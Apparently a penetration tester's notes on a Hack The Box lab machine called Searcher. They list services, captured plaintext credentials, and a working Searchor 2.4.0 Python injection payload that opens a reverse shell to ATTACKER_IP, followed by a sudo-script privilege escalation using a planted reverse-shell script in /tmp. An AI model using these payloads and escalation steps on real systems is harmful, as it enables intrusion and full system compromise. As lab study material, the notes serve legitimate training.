 | HOST         | PORT | PROTO | SERVICE      | VERSION                 |
| ------------ | ---- | ----- | ------------ | ----------------------- |
| 10.10.11.208 | 22   | tcp   | OpenSSH      | 8.9p1 Ubuntu 3ubuntu0.1 |
| 10.10.11.208 | 80   | tcp   | Apache httpd | 2.4.52                  |


## HEADERS
---
HTTP/1.1 302 Found
Date: Thu, 06 Jul 2023 16:52:28 GMT
Server: Apache/2.4.52 (Ubuntu)
Location: http://searcher.htb/
Content-Type: text/html; charset=iso-8859-1

---

## DIRECTORIES
---

---

## USERS
---
cody
svc : jh1usoih2bkjaspwe92 (machine user)
administrator : yuiu1hoiu4i5ho1uh (gitea admin)

---

## NOTES
---
Searchor 2.4.0

`', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#`

sudo -l `(root) /usr/bin/python3 /opt/scripts/system-checkup.py *`

`full-checkup` returns error

list all docker instances `sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps`

inspect them revealing passwords `sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' instanceid`

add `gitea.searcher.htb` to hosts login as administrator

in `scripts/system-checkup.py` upon the `fukk-checkup` command it attempts to run a script `./full-checkup.sh` which does not exist

create a reverse shell .sh script in `/tmp` and run `sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup` with a listener open



---
